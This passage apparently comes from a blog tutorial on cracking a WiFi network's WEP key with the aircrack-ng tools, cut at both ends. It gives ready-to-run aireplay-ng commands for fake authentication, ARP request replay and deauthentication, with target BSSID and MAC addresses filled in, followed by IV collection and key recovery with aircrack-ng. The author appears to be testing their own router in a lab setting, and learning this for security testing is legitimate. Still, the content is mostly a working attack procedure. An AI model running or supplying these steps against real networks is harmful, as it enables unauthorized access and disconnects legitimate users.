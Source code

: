 The airdump-ng action here is REQUIRED to acquire the WEP key and is vital to keep the window open and the traffic capture ongoing to know if the atack is working and to know how many IV's (data column) are captured.

- 

Perform the [fake authentication attack](#fakeauthentication):

`aireplay-ng -1 0 -e DIR-615 -a 00:18:E7:EA:2A:53 -h 00:C0:CA:96:C1:B6 wlan0mon`

![fake-auth](/content/images/2020/01/fake-auth.png)

This is to ensure the attack is more easily performed with a replay of the ARP packet.

- 

Perform the ARP request replay attack:

`aireplay-ng -3 -b 00:18:E7:EA:2A:53 -h 00:04:4B:59:10:88 wlan0mon`

![attack-screen-1](/content/images/2020/01/attack-screen-1.png)

    -3: the arp request replay attack flag
    -b: the BSSID of the victim AP (00:18:E7:EA:2A:53)
    -h: the victim client MAC address that you are capturing the ARP packet from (00:04:4B:59:10:88) (my android tablet)

As highlighted, the pcap information will be saved to a file created by aireplay-ng. Once a successful packet is found (if you're having trouble use a deauthentication attack as shown below), the screen will quickly flood with new lines indicating packets read and sent.

- 

Perform the [deauthentication attack](#deauthentication):

`aireplay-ng -0 1 -a 00:18:E7:EA:2A:53 -c 00:04:4B:59:10:88 wlan0mon`

![deauth](/content/images/2020/01/deauth.png)

This is expedite an ARP packet being sent to the AP from the victim client.

- Here is a visualization of what my screen looks like as I am performing this attack. I highlighted the **DATA** field that you should be monitoring:

![FINALSCREEN-1](/content/images/2020/01/FINALSCREEN-1.png)

- Once you have enough IVs, 50,000 to 100,000 or so does the trick, use aircrack-ng on the .cap file to acquire the WEP key.

![arp-request-replay-aircrack-initial](/content/images/2020/01/arp-request-replay-aircrack-initial.png)

![arp-request-replay-aircrack-final-1](/content/images/2020/01/arp-request-replay-aircrack-final-1.png)

The key is found!

- 

Turn off monitoring mode on the interface when complete with all activities:
